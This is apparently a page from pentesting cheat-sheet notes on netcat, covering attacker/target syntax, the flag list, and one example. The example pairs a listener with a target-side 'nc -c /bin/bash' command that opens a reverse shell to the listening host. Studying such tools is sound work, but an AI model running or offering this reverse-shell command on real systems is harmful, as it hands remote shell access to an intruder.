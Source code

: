     - NetCat known as TCP/IP swiss army knife

    - Syntax:
        
        ```bash
        # Attacker:
        $ nc Options Hostname Port[s] Ports..

            # Target:
        $ nc -l -p Port Options Hostname Port
        ```
    - Flags:

        - `-c string`    specify shell commands to exec after connect (use with caution).  The string is passed to /bin/sh -c for execution.  See the -e option if you don't have a working /bin/sh (Note that POSIX-conformant system must have one).
        - `-e filename`  specify filename to exec after connect (use with caution).  See the -c option for enhanced functionality.
        - `-g gateway`   source-routing hop point[s], up to 8
        - `-G num`       source-routing pointer: 4, 8, 12, ...
        - `-i secs`      delay interval for lines sent, ports scanned
        - `-l `         listen mode, for inbound connects
        - `-n `         numeric-only IP addresses, no DNS
        - `-h `         display help
        - `-o file`      hex dump of traffic
        - `-p port`      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
        - `-q seconds`   after EOF on stdin, wait the specified number of seconds and then quit. If seconds is negative, wait forever.
        - `-b `         allow UDP broadcasts
        - `-r `         randomize local and remote ports
        - `-s addr`      local source address
        - `-t`           enable telnet negotiation
        - `-u`           UDP mode
        - `-v`           verbose [use twice to be more verbose]
        - `-w secs`      timeout for connects and final net reads
        - `-C`           Send CRLF as line-ending
        - `-z`           zero-I/O mode [used for scanning]
        - `-T type`      set TOS flag (type may be one of "Minimize-Delay", "Maximize-Throughput", "Maximize-Reliability", or "Minimize-Cost".)

    - Examples:

        ``` bash
        # Start Listening:
        $ nc -lnvp 87 -s 192.168.1.32

        # Target:
        $ nc -c /bin/bash 192.168.1.32 87
        ```
